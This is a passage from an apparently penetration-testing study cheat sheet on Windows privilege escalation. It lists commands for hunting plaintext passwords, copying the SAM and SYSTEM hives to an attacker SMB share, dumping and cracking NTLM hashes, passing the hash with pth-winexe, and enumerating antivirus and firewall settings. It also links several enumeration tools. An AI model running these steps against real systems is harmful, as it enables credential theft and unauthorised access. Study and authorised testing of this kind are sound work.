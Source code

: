 ## 4. Password Hunting <a name="Password_Hunting"></a>
### 4.1 Password in plain text
- `findstr /si password *.txt *.ini *.config`
	- Maybe user have put the passwords in clear text or in registry. The above will command will parse for "password" in txt,.ini,.config files in the directory.
	- We can even search for WiFi Passwords because user can reuse the same password.
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

### 4.2 Security Account Manager (SAM)
1. `copy C:\Windows\Repair\SAM \\10.10.10.10\kali\`  
`copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\`
2. `git clone https://github.com/Tib3rius/creddump7` 
`pip3 install pycrypto`  
`python3 creddump7/pwdump.py SYSTEM SAM`
3. `hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

### 4.3 Passing the hash
If we find the NTLM hash we can try `pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe`.

## 5. AV and Firewall Enumeration<a name="AV_and_Firewall_Enumeration"></a>
- `sc query windefend` - `sc` for service control. This command will show information of windows defender.
- `sc queryex type= service` to check all services running and see what we are up against. Like is there any antivirus etc.
- `netsh advfirewall firewall dump` newer command
- `netsh firewall show state` older command
- `netsh firwall show config` to see if any ports are open to this machine and any configs.

windows PrivEsc Checklist (https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## 6. Automated Enumeration Tools <a name="Automated_Enumeration_Tools"></a>
- Executables
	- winPEAS.exe (https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
		- check winPEAS.bat if .exe doesn't work
	- Seatbelt.exe (compile) (https://github.com/GhostPack/Seatbelt)
	- Watson.exe (compile) (https://github.com/rasta-mouse/Watson)
	- SharpUp.exe (compile) (https://github.com/GhostPack/SharpUp)
- PowerShell
	- Sherlock.ps1 (https://github.com/rasta-mouse/Sherlock)
	- PowerUp.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
	- jaws-enum.ps1 (https://github.com/411Hall/JAWS)
- Other
	- windows-exploit-suggester.py (local) (https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
	- Exploit Suggester (Metasploit) (https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
